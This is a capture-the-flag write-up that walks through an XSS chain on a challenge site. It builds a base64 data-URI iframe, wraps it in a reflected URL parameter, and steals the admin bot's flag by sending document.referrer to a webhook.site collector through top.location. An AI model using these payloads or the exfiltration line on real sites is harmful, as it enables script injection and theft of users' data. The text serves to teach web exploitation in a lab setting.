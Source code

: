 To deliver this script inside an iframe with `data:` URI, we base64 encode:

```html
<iframe src="data:text/html;base64,PHNjcmlwdCBzcmM9Imh0dHBzOi8vZG91YmxlLW5lc3RlZC50amMudGYvZ2VuP3F1ZXJ5PTE9MT0xPWFsZXJ0JTI4MSUyOSI+PC9zY3JpcHQ+"></iframe>
```

Now, we **wrap this iframe into a reflected parameter**:

### Final URL Payload (urlencoded with 3 dummy key-value pairs):

```js
/?i=1%3D1%3D1%3D%3Ciframe%20src%3D%27data%3Atext%2Fhtml%3Bbase64%2CPHNjcmlwdCBzcmM9Imh0dHBzOi8vZG91YmxlLW5lc3RlZC50amMudGYvZ2VuP3F1ZXJ5PTE9MT0xPWFsZXJ0JTI4MSUyOSI%2BPC9zY3JpcHQ%2B%27%3E%3C%2Fiframe%3E
```

 **XSS Achieved** – `alert(1)` is executed.

---

###  Flag Extraction Strategy

From `admin-bot.js`:

```js
await page.goto(url + flag, { timeout: 3000, waitUntil: 'domcontentloaded' });
```

**Implication**: When the admin bot visits our crafted payload, it appends the `flag` directly to the URL.

---

####  Method 1: Referrer Leak via `top.location`

**javaScript Payload:**

```js
top.location = 'https://webhook.site/your-id/?i=' + window['doc' + 'ument'].referrer
```

This sends the **full URL (including flag)** to an external domain by leveraging the iframe’s `referrer`.

>The iframe’s document has access to the `document.referrer`, which contains the URL of the parent window , Since the flag is appended to that URL, we can extract it from the referrer.

By appending the `document.referrer` to a request to our server and setting `top.location`, we redirect the top-level window (containing the flag) to our malicious endpoint.

PS: `top.location` refers to the URL of the top-most window — that is, the main page that contains the iframe.

##### Encapsulated Script:

```html
<script src="https://double-nested.tjc.tf/gen?query=1=1=1=top.location='https://webhook.site/your-id/?i='+window['doc'+'ument'].referrer"></script>
```
